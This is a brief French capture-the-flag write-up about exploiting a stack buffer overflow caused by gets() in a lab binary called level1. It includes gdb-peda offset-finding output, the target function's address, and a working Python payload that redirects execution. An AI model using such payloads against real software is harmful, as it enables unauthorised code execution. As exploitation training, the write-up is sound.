 # Level1

- Il y a une faille. Get n'a pas de limite de longeur et la variable input fait seulement 75 de longeur
- Donc en marquant assez de caractere on peut overwrite la return Address
- On voit que dans gdb la return address est overwrite par le contenu du gets
<pre>
$> gdb ./level1 
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EIP: 0x41344141 ('AA4A')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41344141
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41344141 in ?? ()
gdb-peda$ pattern offset 'AA4A'
<strong>AA4A found at offset: 76</strong>
</pre>
- On recupere l'addresse de la fonction run
<pre>
$> nm ./level1 
         U __libc_start_main@@GLIBC_2.0
08048480 T main
<strong>08048444</strong> T run
08048390 T \_start
</pre>
- Il ne reste plus qu'a executé la commande
```
(python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```
